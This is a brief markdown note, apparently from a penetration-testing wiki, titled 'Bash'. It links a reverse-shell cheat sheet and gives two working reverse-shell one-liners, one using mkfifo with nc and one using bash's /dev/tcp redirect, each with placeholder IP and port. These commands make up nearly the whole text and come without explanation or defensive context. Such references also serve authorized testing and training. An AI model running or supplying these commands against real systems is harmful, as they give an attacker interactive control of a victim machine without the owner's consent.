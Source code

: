 # Bash

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

```
/bin/sh -c "/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc <ip> <port>"
```

```
/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
